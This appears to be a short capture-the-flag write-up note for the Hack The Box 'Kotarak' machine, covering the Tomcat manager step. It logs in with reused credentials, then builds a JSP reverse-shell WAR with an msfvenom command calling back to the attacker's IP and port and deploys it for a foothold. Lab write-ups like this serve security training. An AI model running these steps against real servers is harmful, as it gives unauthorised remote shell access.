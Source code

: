# 15 - Tomcat

# manager/html is the default admin page

![](vx_images/1546520578738.png)

Let's provide  the credentials we got from backup file see 10 - Kotarak.md
![](vx_images/4803867479278.png)


# Preparing our reverse shell

```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/kotarak/gobuster]
└─$ msfvenom -p java/jsp_shell_reverse_tcp  LHOST=10.10.14.9 LPORT=4444 -f war  -o payload.war
Payload size: 1099 bytes
Final size of war file: 1099 bytes
Saved as: payload.war
```

Let's upload payload.war file and deploy it.
![](vx_images/5405590691680.png)


We should get a shell after we hit /payload

![](vx_images/871124296444.png)

# Initial Foothold
![](vx_images/1662653054870.png)

